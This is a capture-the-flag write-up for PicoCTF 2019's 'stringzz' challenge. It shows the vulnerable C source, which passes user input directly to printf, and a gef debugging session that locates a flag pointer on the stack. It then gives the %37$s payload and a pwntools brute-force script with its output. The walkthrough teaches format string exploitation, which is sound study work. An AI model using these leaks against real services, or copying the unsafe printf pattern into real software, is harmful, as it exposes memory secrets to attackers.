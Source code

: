 ```yaml
---
---
title: Leak the stack
description: Leak the stack using a format string attack.
---
```


# Format string - Leak the stack

## Summary

Two ways :

1. Find the exact offset of the data we want to leak.
2. Bruteforce the stack until we get the right offset.

Both methods work very well, only the first is more instructive.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.

(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)

We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.

```
gef➤  disass printMessage3
Dump of assembler code for function printMessage3:
   0x000006ed <+0>:     push   ebp
   0x000006ee <+1>:     mov    ebp,esp
   0x000006f0 <+3>:     push   ebx
   0x000006f1 <+4>:     sub    esp,0x4
   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
   0x000006f9 <+12>:    add    ebx,0x18bb
   0x000006ff <+18>:    sub    esp,0xc
   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
   0x00000708 <+27>:    push   eax
   0x00000709 <+28>:    call   0x570 <puts@plt>
   0x0000070e <+33>:    add    esp,0x10
   0x00000711 <+36>:    sub    esp,0xc
   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
   0x00000717 <+42>:    call   0x520 <printf@plt>
   0x0000071c <+47>:    add    esp,0x10
   0x0000071f <+50>:    nop
   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000723 <+54>:    leave
   0x00000724 <+55>:    ret
End of assembler dump.
gef➤  b *(printMessage3+42)
- Breakpoint 1 at 0x717
```

Let's run the program and find where the flag is located using the command `grep`.

```
gef➤  grep "FLAG{gg}"
[+] Searching 'FLAG{gg}' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
```

As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.

```
gef➤  x/50xw $sp
0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
0xffffd280:     0x00000001      0xffffd324
gef➤  x/s 0x56558a40
0x56558a40:     "FLAG{gg}\n"
```

As you can see, there is our address inside `> <`.
`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.

```
$ ./vuln
input whatever string you want; then it will be printed back:

%37$s
Now
your input
will be printed:

FLAG{gg}
```

---

The other way to solve this challenge is by using bruteforce to leak all the stack until we get the flag :

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```